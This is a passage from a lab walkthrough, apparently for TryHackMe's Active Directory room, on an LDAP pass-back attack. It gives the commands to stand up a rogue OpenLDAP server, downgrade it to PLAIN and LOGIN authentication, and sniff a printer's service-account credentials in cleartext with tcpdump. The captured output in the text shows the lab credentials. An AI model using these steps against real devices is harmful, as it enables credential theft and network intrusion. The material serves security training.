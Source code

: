 There are several ways to host a rogue LDAP server, but we will use OpenLDAP for this example. If you are using the AttackBox, OpenLDAP has already been installed for you. However, if you are using your own attack machine, you will need to install OpenLDAP using the following command:

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

You will however have to configure your own rogue LDAP server on the AttackBox as well. We will start by reconfiguring the LDAP server using the following command:

```
sudo dpkg-reconfigure -p low slapd
```

Make sure to press "No" when requested if you want to skip server configuration:

![[images/c179bce50b04c7379babd7f2218eb1d9_MD5.png]]  

For the DNS domain name, you want to provide our target domain, which is `za.tryhackme.com`:

![[images/f69f9aae3cc198a08f263b450ef81623_MD5.png]]  

Use this same name for the Organisation name as well:  

![[images/3d97b594b38535f5b81a3f809b513353_MD5.png]]  

Provide any Administrator password:

![[images/b7f1f60164a88e9e6cf892a00a06300d_MD5.png]]

Select MDB as the LDAP database to use:

![[images/a57058ffe42272d4e82a3792c9d8e708_MD5.png]]

For the last two options, ensure the database is not removed when purged:

![[images/d950a36a0dbb572af531620d767c8ca1_MD5.png]]  

Move old database files before a new one is created:

![[images/d68783976d83ff6be43c5ecdbf5d745f_MD5.png]]  

Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:

#### olcSaslSecProps.ldif

```shell-session
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

- **olcSaslSecProps:** Specifies the SASL security properties
- **noanonymous:** Disables mechanisms that support anonymous login
- **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f images/olcSaslSecProps.ldif && sudo service slapd restart
```

We can verify that our rogue LDAP server's configuration has been applied using the following command (**Note**: If you are using Kali, you may not receive any output, however the configuration should have worked and you can continue with the next steps):

LDAP search to verify supported authentication mechanisms

```shell-session
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

## Capturing LDAP Credentials  

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:

#### TCPDump

```shell-session
[thm@thm]$ sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:41:52.979933 IP 10.10.10.201.49834 > 10.10.10.57.ldap: Flags [P.], seq 4245946075:4245946151, ack 1113052386, win 8212, length 76
	0x0000:  4500 0074 b08c 4000 8006 20e2 0a0a 0ac9  E..t..@.........
	0x0010:  0a0a 0a39 c2aa 0185 fd13 fedb 4257 d4e2  ...9........BW..
	0x0020:  5018 2014 1382 0000 3084 0000 0046 0201  P.......0....F..
	0x0030:  0263 8400 0000 3d04 000a 0100 0a01 0002  .c....=.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1904 1773 7570  class0.......sup
	0x0060:  706f 7274 6564 5341 534c 4d65 6368 616e  portedSASLMechan
	0x0070:  6973 6d73                                isms
10:41:52.979938 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [.], ack 4245946151, win 502, length 0
	0x0000:  4500 0028 247d 4000 4006 ed3d 0a0a 0a39  E..($}@.@..=...9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5010 01f6 2930 0000                      P...)0..
10:41:52.980162 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [P.], seq 1113052386:1113052440, ack 4245946151, win 502, length 54
	0x0000:  4500 005e 247e 4000 4006 ed06 0a0a 0a39  E..^$~@.@......9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5018 01f6 2966 0000 3034 0201 0264 2f04  P...)f..04...d/.
	0x0030:  0030 2b30 2904 1773 7570 706f 7274 6564  .0+0)..supported
	0x0040:  5341 534c 4d65 6368 616e 6973 6d73 310e  SASLMechanisms1.
	0x0050:  0405 504c 4149 4e04 054c 4f47 494e       ..PLAIN..LOGIN
[....]
10:41:52.987145 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [.], ack 3088612909, win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
	0x0000:  4500 0069 b093 4000 8006 20e6 0a0a 0ac9  E..i..@.........
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5018 2014 3afe 0000 3084 0000 003b 0201  P...:...0....;..
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```

Also, note that `password11` is an example. The password for your service will be different. You may have to press the "Test Settings" button a couple of times before the TCPdump will return data since we are performing the attack over a VPN connection.  

Now we have another set of valid AD credentials! By using an LDAP pass-back attack and downgrading the supported authentication mechanism, we could intercept the credentials in cleartext.
